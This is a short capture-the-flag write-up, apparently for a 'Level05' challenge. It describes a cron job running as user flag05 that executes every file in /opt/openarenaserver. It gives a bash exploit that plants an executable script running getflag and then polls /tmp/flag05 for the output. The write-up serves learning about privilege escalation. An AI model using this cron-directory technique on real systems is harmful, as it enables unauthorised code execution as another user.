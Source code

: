 # Level05 Exploit

In this challenge, we've discovered a cronjob running as user `flag05` that executes the script `/usr/sbin/openarenaserver` every 2 minutes. Additionally, we have access to the script `/usr/sbin/openarenaserver`, which executes all files within the directory `/opt/openarenaserver`.

## Vulnerability Analysis

The script `/usr/sbin/openarenaserver` iterates through files in `/opt/openarenaserver` and executes them with a limited CPU time. This presents an opportunity for exploitation, as we can create a file within `/opt/openarenaserver` that executes getflag and saves the output to a file.

## Exploit Procedure

To exploit this vulnerability and retrieve the flag, we can create a file named flag within `/opt/openarenaserver` that executes getflag and saves the output to `/tmp/flag05`. Here's how we can accomplish this:

```bash
# Create a script within /opt/openarenaserver to execute getflag and save the output
echo "getflag > /tmp/flag05" > /opt/openarenaserver/flag
chmod +x /opt/openarenaserver/flag

# Continuously check for the existence of /tmp/flag05 and print its contents once available
while :;
do
  if [ -f "/tmp/flag05" ]; then
    cat /tmp/flag05
    break
  fi
  sleep 10
done
```

This script continuously checks for the existence of `/tmp/flag05`. Once the file is found, it prints its contents, which should contain the flag.
